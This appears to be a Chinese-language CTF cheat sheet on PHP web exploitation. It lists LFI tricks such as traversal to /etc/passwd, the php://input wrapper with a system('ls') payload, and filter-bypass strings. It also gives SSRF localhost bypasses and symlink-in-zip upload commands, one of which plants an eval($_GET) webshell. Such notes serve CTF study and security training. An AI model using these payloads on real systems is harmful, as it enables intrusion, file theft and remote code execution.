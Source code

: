 [php 代码审计总结](https://mp.weixin.qq.com/s/Hlk5lXwbaDTmfxOLbFIATg)

bp 试一下 scan
if(!preg_match("/php|file|\:|base|rot/i",\$c)){
file,base,rot

sql, xpath 报错只能显示 32 位。用 left, mid right 截取显示剩余部分

[TOC]

# 解题思路

信息搜集:bypass, 命令执行漏洞
文件路径加.bak 如 /upload.php 访问 /upload.php.bak 看有没有源码
注意文件上传马尽量 UTF8 编码 8. 手动闭合字符串插入内容，再拼接，见 dasctf 迷路的魔法少女。
绕过/ssrf 绕 127.0.0.1 或本地限制 127.0.0.2/0.0.0.0

## LFI - Local File Include

1. %00 截断问题 CVE-2020-7066
2. 目录穿越 /../../../../../../../../etc/passwd
3. 伪协议 ?url=php://input , 在最下面位置 `<?php system('ls');?>`
4. includes/class\_<input>.php => includes/class_aaa/../../../../info
5. str_replace('../', '') 双写 POC: ..././ -> ../
6. 查看 html 隐藏字段提交
7. 查看 robots.txt, hint.txt, index.php, flag.php, index.php~, index.php.swp, 当前页 php
8. 二次编码,例 `"admin"!==x && urlencode(x) == 'admin'` , 二次 encode x
9. filename 提示目录穿越
10. file 提示为伪协议
11. 远程文件包含

## 上传文件

### ln 文件链接

1.python| zip 文件 | 上传 passwd 的 link `BUUCTF：[HCTF 2018]Hide and seek` https://blog.csdn.net/mochu7777777/article/details/105190181/

```
ln -s /etc/passwd link1
zip -y link1.zip link1
```

2. 深育杯 zipzip

```
mkdir 111
cd 111
/111# ln -s /var/www/html file1
/111# zip --symlinks 1.zip file1

/111# mkdir aaa
/111# cd aaa
/111/aaa# mkdir file1
/111/aaa# cd file1
/111/aaa/file1# echo '<?php eval($_GET[1]);?>' > 1.php
/111/aaa/file1# cd ..
/111/aaa# zip -r 2.zip ./*
```
